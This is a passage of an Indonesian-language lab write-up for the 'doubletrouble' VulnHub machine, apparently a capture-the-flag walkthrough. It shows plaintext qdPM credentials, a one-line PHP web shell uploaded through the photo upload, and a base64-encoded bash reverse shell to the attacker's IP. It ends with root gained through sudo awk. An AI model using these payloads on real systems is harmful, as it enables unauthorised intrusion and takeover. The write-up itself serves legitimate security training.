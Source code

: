 ```
otisrush@localhost.com
otis666%
```

## shell as www-data
seperti yang sudah dijelaskan pada subbab `exploit analyzing` bahwasanya `qdPM 9.1` bisa dipasangi revshell pada `/index.php/myAccount` bagian list Photo karena ada `file attachment`. saya mencoba memasang RCE berformat `phtml`.
```
╭─ via [vh/doubletrouble]
╰─ cat *phtml   
<?php system($_GET['c']); ?>
```
ketika saya upload, dan saya pergi ke `/uploads/users/` untuk mencari backdoor yang saya pasang.
```
╭─ via [vh/doubletrouble]
╰─ curl -s 'http://192.168.56.29/uploads/users/970086-lmfao.phtml?c=id'                                                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)
╭─ via [vh/doubletrouble]
╰─ echo "/bin/bash -i >& /dev/tcp/192.168.56.1/12345 0>&1" | base64                                                                                                                                              
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMS8xMjM0NSAwPiYxCg==
╭─ via [vh/doubletrouble]
╰─ curl -s 'http://192.168.56.29/uploads/users/970086-lmfao.phtml?c=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTYuMS8xMjM0NSAwPiYxCg==+|+base64+-d+|+bash'

--

╭─ via [vh/doubletrouble]
╰─ ncat -nvlp 12345
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::12345
Ncat: Listening on 0.0.0.0:12345
Ncat: Connection from 192.168.56.29.
Ncat: Connection from 192.168.56.29:59362.
bash: cannot set terminal process group (467): Inappropriate ioctl for device
bash: no job control in this shell
www-data@doubletrouble:/var/www/html/uploads/users$
```

## shell as root
```
www-data@doubletrouble:/var/www/html/uploads/users$ sudo /usr/bin/awk 'BEGIN{system("/bin/bash")}'
id
uid=0(root) gid=0(root) groups=0(root)
```
